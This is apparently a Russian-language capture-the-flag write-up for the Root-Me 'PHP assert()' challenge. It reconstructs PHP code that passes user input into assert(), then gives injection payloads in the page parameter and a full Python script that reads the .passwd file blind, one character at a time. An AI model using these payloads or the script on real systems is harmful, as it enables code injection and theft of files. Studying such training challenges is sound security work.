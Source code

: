 #PHP assert()

25 Points
Read the doc!

Попробуем осуществить LFI атаку с помощью GET-параметра page. попробуем с помощью него открыть /etc/passwd:
http://challenge01.root-me.org/web-serveur/ch47/?page=../../../../../etc/passwd
Выводится предупреждение:

Warning: assert(): Assertion "strpos('includes/../../../../../etc/passwd.php', '..') === false" failed in /challenge/web-serveur/ch47/index.php on line 8 Detected hacking attempt!

Это приложение использует функцию assert, чтобы проверить ложно ли утвеждение.
PHP код этого приложения выглядит примерно так:

```php
<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}
$file = "includes/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!"); // уязвимый код!
?>
```
Попробуем ввести зловредный код, используя слепую технику. 

```
http://challenge01.root-me.org/web-serveur/ch47/?page=', 'qwer') === false && strlen(file_get_contents(".passwd")) == 0 && strpos('1
```

Сервер отвечает нам:

> Warning: assert(): Assertion "strpos('includes/', 'qwer') === false && strlen(file_get_contents(".passwd")) == 0 && strpos('1.php', '..') === false" failed in /challenge/web-serveur/ch47/index.php on line 8
>
> Detected hacking attempt!

то есть, когда условие FALSE

``` 
http://challenge01.root-me.org/web-serveur/ch47/?page=', 'qwer') === false && strlen(file_get_contents(".passwd")) > 0 && strpos('1
```

Сервер отвечает нам:

>  'includes/', 'qwer') === false && strlen(file_get_contents(".passwd")) > 0 && strpos('1.php'File does not exist

то есть, когда условие TRUE

Напишем на python скрипт для чтения файла:

```python
import base64
import string
import requests
import urllib

url = "http://challenge01.root-me.org/web-serveur/ch47/"


def check(payload):
    params = urllib.urlencode({'page': payload})
    try:
        r = requests.get(url, params=params)
    except requests.exceptions.ConnectionError:
        r = requests.get(url, params=params)
    return "Warning" not in r.text


base = "/', 'qwer') === false && %s && strpos('1"

def get_len(path):
    i = 10
    while True:
        payload = 'strlen(file_get_contents("%s")) < %d' % (path, i)
        if check(base % payload):
            for j in range(i-10, i):
                payload = 'strlen(file_get_contents("%s")) == %d' % (path, j)
                if check(base % payload):
                    print "Found Length = %d" % j
                    return j
        i += 10

def read_file_contents(path):
    length = get_len(path)
    s = ""
    while len(s) < length:
        for c in string.printable:
            tmp = s + c
            payload = 'substr(file_get_contents("%s"), 0, %d) == base64_decode("%s")' % (
            path, len(tmp), base64.b64encode(tmp))

            if check(base % payload):
                s += c
                print s
    print s

print read_file_contents('.passwd')
```